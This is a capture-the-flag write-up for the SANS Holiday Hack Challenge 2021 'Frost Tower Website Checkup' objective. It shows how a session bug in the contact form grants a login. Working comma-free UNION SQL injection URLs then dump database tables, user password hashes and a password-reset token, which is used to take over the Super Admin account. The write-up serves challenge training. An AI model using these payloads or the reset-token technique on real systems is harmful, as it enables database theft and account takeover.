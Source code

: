 <h1 id="objective-12-frost-tower-website-checkup">Objective 12: Frost Tower Website Checkup</h1>
<p><strong>Location: Studio, Frost Tower, 16<sup>th</sup> Floor, <a href="https://staging.jackfrosttower.com/">https://staging.jackfrosttower.com/</a></strong><br>
<strong>Troll: Ingreta Tude</strong><br>
<strong>Hints provided by Ribb Bonbowford after completion of <a href="https://github.com/joergschwarzwaelder/hhc2021/blob/master/Additional/Elf%20Code%20Python.md">Elf Code Python</a></strong></p>
<p>This objective is to perform a security assessment of the Frost Tower website with the <a href="https://download.holidayhackchallenge.com/2021/frosttower-web.zip">source code</a> being provided.<br>
It has to be found, which job position Jack Frost plans to offer Santa on his todo list.</p>
<h3 id="auth-flaw">Auth flaw</h3>
<p>The application tracks the user’s session in <code>session</code> (login name, user’s role etc.).<br>
It was found that a valid session is also set, if you complete the <a href="https://staging.jackfrosttower.com/contact">contact form</a> whilst the email address is already captured in the database. So you could just register twice to get a valid user session for an unprivileged user.</p>
<pre><code>app.post('/postcontact', function(req, res, next){
[...]
        var rowlength = rows.length;
        if (rowlength &gt;= "1"){
            session = req.session;
            session.uniqueID = email;
            req.flash('info', 'Email Already Exists');
            res.redirect("/contact");
</code></pre>
<h3 id="sqli-flaw">SQLi flaw</h3>
<p>Using this unprivileged user session, an SQLi flaw in the function to get user details could be used to retrieve more information from the database.<br>
As only caveat it has to be ensured, that the <strong>comma character has to be avoided</strong> in the SQL statement as the application splits up the query at the commas.<br>
Furthermore it is important to note that “union” requires that the <strong>number of columns on both sides match</strong>.</p>
<p>This URL is the base for all following SQLi attacks:</p>
<pre><code>https://staging.jackfrosttower.com/detail/461,id union
</code></pre>
<p>During research a <a href="https://secgroup.github.io/2017/01/03/33c3ctf-writeup-shia/">very good explanation</a> about how to avoid commas in SQL statements and how to get to the right amount of columns was found and the attacks outlined below follow exactly this approach.</p>
<h3 id="getting-access-to-jack-frosts-todo-list">Getting access to Jack Frosts todo list</h3>
<p>We can obtain a list of all interesting tables in the MySQL database using this SQL statement:</p>
<pre><code>select * from information_schema.tables;
</code></pre>
<p>Rewritten for our SQLi flaw:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select F.3 from (select * from (select 1)i1 join (select 2)i2 join (select 3)i3 join (select 4)i4 join (select 5)i5 join (select 6)i6 join (select 7)i7 join (select 8)i8 join (select 9)i9 join (select 10)i10 join (select 11)i11 join (select 12)i12 join (select 13)i13 join (select 14)i14 join (select 15)i15 join (select 16)i16 join (select 17)i17 join (select 18)i18 join (select 19)i19 join (select 20)i20 join (select 21)i21 join (select 22)i22 join (select 23)i23 union select * from information_schema.tables)F)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>This reveals, that in addition to the tables “emails” and “uniquecontact”, which are known as they are used in the application, there is an additional table “todo”, which seems to be the todo list we need access to.</p>
<p>Using the SQL statement</p>
<pre><code>select * from information_schema.columns where table_name="todo"
</code></pre>
<p>the list of columns in the table “todo” can be obtained, rewritten for the SQLi:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select F.4 from (select * from (select 1)i1 join (select 2)i2 join (select 3)i3 join (select 4)i4 join (select 5)i5 join (select 6)i6 join (select 7)i7 join (select 8)i8 join (select 9)i9 join (select 10)i10 join (select 11)i11 join (select 12)i12 join (select 13)i13 join (select 14)i14 join (select 15)i15 join (select 16)i16 join (select 17)i17 join (select 18)i18 join (select 19)i19 join (select 20)i20 join (select 21)i21 join (select 22)i22 union select * from information_schema.columns where table_name="todo")F)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>we can see, that this table consists out of 3 columns: id, note, completed.<br>
The “note” column can then be extracted using</p>
<pre><code>select * from todo
</code></pre>
<p>Rewritten for the SQLi:</p>
<pre><code>select * from (select 1)a1 join (select 2)a2 join (select F.2 from (select * from (select 1)i1 join (select 2)i2 join (select 3)i3 union select * from todo)F)d join (select 3)j join (select 4)k join (select 5)l join (select 6)m;--
</code></pre>
<p>This brings up Jack Frosts todo list:</p>
<ul>
<li>Buy up land all around Santa’s Castle</li>
<li>Build bigger and more majestic tower next to Santa’s</li>
<li>Erode Santa’s influence at the North Pole via FrostFest, the greatest Con in history</li>
<li>Dishearten Santa’s elves and encourage defection to our cause</li>
<li>Steal Santa’s sleigh technology and  build a competing and way better Frosty present delivery vehicle</li>
<li>Undermine Santa’s ability to deliver presents on 12/24 through elf staff shortages, technology glitches, and assorted mayhem</li>
<li>Force Santa to cancel Christmas</li>
<li>SAVE THE DAY by delivering Frosty presents using merch from the Frost Tower Gift Shop to children world-wide… so the whole world sees that Frost saved the Holiday Season!!! Bwahahahahaha!</li>
<li>With Santa defeated, offer the old man a job as a <strong>clerk</strong> in the Frost Tower Gift Shop so we can keep an eye on him</li>
</ul>
<hr>
<h3 id="bonus-getting-super-admin-privileges-in-the-application">Bonus: Getting Super Admin privileges in the application</h3>
<p>Using the SQLi flaw, a full list of registered users and admins (along with password hashes and privilege levels) can be retrieved using this link:</p>
<pre><code>https://staging.jackfrosttower.com/detail/461,id%20union%20select%20*%20from%20users--
</code></pre>
<p>This contains for example:</p>
<ul>
<li>Super Admin</li>
<li>root@localhost</li>
<li>$2b<span class="katex--inline"><span class="katex"><span class="katex-mathml"><math xmlns="http://www.w3.org/1998/Math/MathML"><semantics><mrow><mn>10</mn></mrow><annotation encoding="application/x-tex">10</annotation></semantics></math></span><span class="katex-html" aria-hidden="true"><span class="base"><span class="strut" style="height: 0.64444em; vertical-align: 0em;"></span><span class="mord">10</span></span></span></span></span>JnLy8pq1fC/KrS.bn1NAOx13GzDavIOZJkuayDC7JSCNKvQUha3i</li>
<li>1</li>
<li>November 23rd, 2021 11:00:00</li>
<li>December 18th, 2021 7:05:17</li>
</ul>
<hr>
<ul>
<li>Admin</li>
<li>admin@localhost</li>
<li>$2b<span class="katex--inline"><span class="katex"><span class="katex-mathml"><math xmlns="http://www.w3.org/1998/Math/MathML"><semantics><mrow><mn>10</mn></mrow><annotation encoding="application/x-tex">10</annotation></semantics></math></span><span class="katex-html" aria-hidden="true"><span class="base"><span class="strut" style="height: 0.64444em; vertical-align: 0em;"></span><span class="mord">10</span></span></span></span></span>FTkzq07Az57M.Q8jw7ehB…h5Vdc3Vw04zQzJIt294bgwg7.aV1GC</li>
<li>2</li>
<li>December 3rd, 2021 11:00:00</li>
</ul>
<p>This shows, that we have a “Super Admin” with the email address root@localhost defined in the system.</p>
<p>Next the “<a href="https://staging.jackfrosttower.com/forgotpass">forgot password</a>” function of the application can be used to increase the privileges.<br>
When resetting the password for a user, a random token is created and stored in the user database. If we are able to get hold of this token, we can change the password of the user and have full control.</p>
<p>The token for “root@localhost” can be retrieved using this URL:</p>
<pre><code>https://staging.jackfrosttower.com/detail/-1,-id%20union%20select%20*%20from%20(select%201)a%20join%20(select%202)b%20join%20(select%203)c%20join%20(select%20F.7%20from%20(select%20*%20from%20(select%201)h%20join%20(select%202)i%20join%20(select%203)j%20join%20(select%204)k%20join%20(select%205)l%20join%20(select%206)m%20join%20(select%207)n%20union%20select%20*%20from%20users%20where%20email=%22root@localhost%22)F)d%20join%20(select%204)e%20join%20(select%20%222021-01-01%2000:00:00%22)f%20join%20(select%20%222021-01-01%2000:00:00%22)g;--
</code></pre>
<p>The timestamps in the above URL are required, as the values of these columns undergo a date conversion. This throws an exception if no valid date format is supplied:</p>
<pre><code>TypeError: /app/webpage/detail.ejs:29
    27|                             -
    28|                         &lt;% }else { %&gt;
 &gt;&gt; 29|                             &lt;%= dateFormat(encontact.date_update, "mmmm dS, yyyy h:MM:ss") %&gt;
    30|                         &lt;% } %&gt;                     
    31|                         &lt;/li&gt;
    32|                     &lt;/ul&gt;

Invalid date
    at Object.dateFormat (/app/node_modules/dateformat/lib/dateformat.js:39:17)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), &lt;anonymous&gt;:45:26)
    at Array.forEach (&lt;anonymous&gt;)
    at eval (eval at compile (/app/node_modules/ejs/lib/ejs.js:618:12), &lt;anonymous&gt;:21:18)
    at returnedFn (/app/node_modules/ejs/lib/ejs.js:653:17)
    at tryHandleCache (/app/node_modules/ejs/lib/ejs.js:251:36)
    at View.exports.renderFile [as engine] (/app/node_modules/ejs/lib/ejs.js:482:10)
    at View.render (/app/node_modules/express/lib/view.js:135:8)
    at tryRender (/app/node_modules/express/lib/application.js:640:10)
    at Function.render (/app/node_modules/express/lib/application.js:592:3)
</code></pre>
<p>Using the URL <a href="https://staging.jackfrosttower.com/forgotpass/token/">https://staging.jackfrosttower.com/forgotpass/token/</a>{retrieved token} it is possible to set a new password for the “Super Admin” user.<br>
Being logged on as this user, a new personalized user with “Super Admin” privileges can be created.</p>
<p><strong>Achievement: Frost Tower Website Checkup</strong></p>

